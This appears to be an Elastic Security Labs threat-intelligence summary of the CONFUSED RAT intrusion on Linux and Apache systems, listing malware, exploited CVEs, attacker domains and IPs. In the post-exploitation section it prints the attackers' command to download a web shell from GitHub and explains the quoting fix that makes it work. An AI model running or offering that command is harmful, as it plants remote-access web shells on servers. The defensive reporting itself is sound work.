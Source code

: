 ## CONFUSED RAT indicators by Elastic Security Labs

Indicators for a threat group we’re calling CONFUSED RAT were discovered in late December 2022. This threat group exploited an Apache web server and then moved laterally to other Linux endpoints. While the threat group was able to gain initial access to the environment, they appeared to have difficulty operating remotely in non-interactive and non-login shells, and do not appear to have accomplished any objectives of note.

Throughout our research into this group, while they did have some successes, we didn’t observe anything novel that warranted a deep dive analysis that is normally hosted at Elastic Security Labs. While the tactics and techniques weren’t overly complex, we felt that the indicators were valuable to be released to the community. This summary will provide some basic context for the indicators but is not intended to serve as an analysis of the intrusion.

Instructions to ingest the indicators are in the root [indicators](../README.md) directory.

## Initial access

The initial access likely started by exploiting the Apache process. This allowed the threat actors to continue operations using the `apache2` process, which is the default process for the Apache web server on Ubuntu.

Once initial access was established, the actor made attempts to connect to remote Internet-connected endpoints to download additional tooling.

## Post exploitation

The threat actor made several attempts to load various malware and exploits, create remote shells to external endpoints, and perform internal reconnaissance of the contested Linux environment.

We did not observe any lateral movement between operating systems and the continued activity in the Linux enclave suggests that the actor(s) remained on Linux systems.

We did observe the threat actors struggle with the non-interactive and non-login shell they had through the `apache2` process.

In this example, they are trying to download an interactive transparent web shell (`connected.php`) but don't seem to understand how the Linux shell interprets the non-interactive and non-login session when using `sh -c`. They were confused enough that they began running the `--help` option for `wget` on the system they were resident on.

![alt_text](images/image1.png "image_tooltip")

When using `sh -c`,  you need to surround your command with single quotes so that the shell interprets the instructions as a single command and an argument instead of multiple commands. In the example attempted by the adversary, they tried to use `sh -c wget https://raw.githubusercontent.com/LeviathanPerfectHunter/shell/main/connected[.]php` which is interpreted by the shell as two separate commands, `wget` and the URL, instead of a command (`wget`) and an argument (the URL). This fails because `wget` requires a URL as an argument. Because of the way the actor attempted to use `sh -c`, the URL was interpreted as another command and failed.

```bash
$ sh -c wget https://raw.githubusercontent.com/LeviathanPerfectHunter/shell/main/connected[.]php
wget: missing URL
Usage: wget [OPTION]... [URL]...

Try `wget --help' for more options.
```

Had they surrounded the command with single quotes, their attempt to download `connected.php` would have been successful.

```bash
sh -c 'wget https://raw.githubusercontent.com/LeviathanPerfectHunter/shell/main/connected[.]php'
--2023-08-28 19:03:50--  https://raw.githubusercontent.com/LeviathanPerfectHunter/shell/main/connected.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3099 (3.0K) [text/plain]
Saving to: ‘connected.php’

connected.php                                      
100%[==========================>]   3.03K  --.-KB/s    in 0s

2023-08-28 19:03:51 (9.07 MB/s) - ‘connected.php’ saved [3099/3099]
```

## Malware and exploits

The threat group employed multiple Linux malwares and exploits.

### Malware observed

* Earthworm
* Wipelog
* Frp
* Getshell
* Various webshells

### Exploits observed

* CVE-2021-4034
* CVE-2022-0847

## Additional indicator context

As stated above, the below section is to add some context to the indicators.

### Leviathan Perfect Hunter

One of the IP addresses that was used for a remote shell (`156.67.221[.]29`) also serves as a web page for a group called Leviathan Perfect Hunter (of note, this shares a name with the Github profile where `connected.php` is hosted). There are two websites for Leviathan Perfect Hunter, one is the IP address with no domain associated, and the other is `leviathanperfecthunter[.]site` (`142.132.150[.]169`).

![alt_text](images/image2.png "image_tooltip")

The Leviathan Perfect Hunter team appears to focus on web server exploitation and defacement. This team uploaded a single defacement in February 2023 on the website vandalism site, Zone-Xsec.

![alt_text](images/image3.png "image_tooltip")

When researching `142.132.150[.]169` (the IP address for the `leviathianperfecthunter[.]site`) we identified that it had also been defaced and posted on Zone-Xsec by a team called “padang blackhat”, from the user _xjustfun.

![alt_text](images/image4.png "image_tooltip")

User _xjustfun was an attacker who posted their last defacement to Zone-Xsec in March of 2023.

![alt_text](images/image5.png "image_tooltip")

The team “padang blackhat” posted their last defacement to Zone-Xsec in May of 2023. As of this publication, they have recorded 2,124 defacements to Zone-Xsec

![alt_text](images/image6.png "image_tooltip")

It is unclear if _xjustfun, padang blackhat, or Leviathan Perfect Hunter are related or engaged in hacker chicanery. Padang blackhat may be a top-level defacement group, _xjustfun is a member, and Leviathan Perfect Hunter is a project owned by them.

### Suhao

When researching another indicator (`meki.google.co[.]ws`), we observed that the domain had DNS A records and a CNAME record (`suhao.github[.]io`) pointing to Github IP space and a Github repository. The owner of this repository appears to have a private profile.

```bash
$ dig meki.google.co[.]ws @8.8.8.8

; <<>> DiG 9.10.6 <<>> meki.google.co.ws @8.8.8.8
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 49526
;; flags: qr rd ra; QUERY: 1, ANSWER: 5, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;meki.google.co.ws.		IN	A

;; ANSWER SECTION:
meki.google.co[.]ws.	600	IN	CNAME	suhao.github[.]io.
suhao.github.io.	3600	IN	A	185.199.108.153
suhao.github.io.	3600	IN	A	185.199.109.153
suhao.github.io.	3600	IN	A	185.199.110.153
suhao.github.io.	3600	IN	A	185.199.111.153

;; Query time: 182 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Wed Aug 30 10:40:19 CDT 2023
;; MSG SIZE  rcvd: 139
```

When analyzing the available hosts and subdomains of `co[.]ws`, we observed that they were seemingly a hopper of defaced websites. 321 sites returned an HTTP response code of `404` and 21 returned a `200`. Below are a few examples.

![alt_text](images/image7.png "image_tooltip")

![alt_text](images/image8.png "image_tooltip")

This could be a red team training ground, a mirror of defacements hosted elsewhere, a portfolio showcasing hacker skillsets, a honeynet, or something different entirely. 

In either case, the indicators collected were observed to be used in an intrusion on a network and could be used in the future.
